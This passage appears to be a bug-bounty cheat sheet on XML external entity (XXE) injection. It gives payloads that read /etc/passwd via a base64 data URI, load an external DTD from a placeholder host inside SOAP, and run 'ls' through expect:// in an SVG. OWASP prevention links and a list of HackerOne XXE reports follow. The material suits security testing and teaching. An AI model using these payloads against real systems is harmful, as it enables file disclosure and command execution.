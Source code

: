     ### XXE: Base64 Encoded
    
    ```
    <!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
    
    ```
    
    ### XXE: XXE inside SOAP Example
    
    ```
    <soap:Body>
      <foo>
        <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "<http://x.x.x.x:22/>"> %dtd;]><xxx/>]]>
      </foo>
    </soap:Body>
    
    ```
    
    ### XXE: XXE inside SVG
    
    ```
    <svg xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls"></image>
    </svg>
    
    ```
    
    ### References :
    
    👉 [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)
    
    👉 [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
    
    👉 [Testing for XML Injection (OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))

# Top XXE reports from HackerOne:

1. [XXE at ecjobs.starbucks.com.cn/retail/hxpublic_v6/hxdynamicpage6.aspx](https://hackerone.com/reports/500515) to Starbucks - 308 upvotes, $4000
2. [XXE on pulse.mail.ru](https://hackerone.com/reports/505947) to Mail.ru - 263 upvotes, $6000
3. [XXE on sms-be-vip.twitter.com in SXMP Processor](https://hackerone.com/reports/248668) to Twitter - 250 upvotes, $10080
4. [XXE on https://duckduckgo.com](https://hackerone.com/reports/483774) to DuckDuckGo - 209 upvotes, $0
5. [Phone Call to XXE via Interactive Voice Response](https://hackerone.com/reports/395296) to ██████ - 170 upvotes, $0
6. [Partial bypass of #483774 with Blind XXE on https://duckduckgo.com](https://hackerone.com/reports/486732) to DuckDuckGo - 151 upvotes, $0
7. [Multiple endpoints are vulnerable to XML External Entity injection (XXE) ](https://hackerone.com/reports/72272) to Pornhub - 136 upvotes, $2500
8. [XXE through injection of a payload in the XMP metadata of a JPEG file](https://hackerone.com/reports/836877) to Informatica - 128 upvotes, $0
9. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 111 upvotes, $0
10. [XXE in Site Audit function exposing file and directory contents](https://hackerone.com/reports/312543) to Semrush - 99 upvotes, $2000
11. [[RCE] Unserialize to XXE - file disclosure on ams.upload.pornhub.com](https://hackerone.com/reports/142562) to Pornhub - 89 upvotes, $10000
12. [XXE in DoD website that may lead to RCE](https://hackerone.com/reports/227880) to U.S. Dept Of Defense - 89 upvotes, $0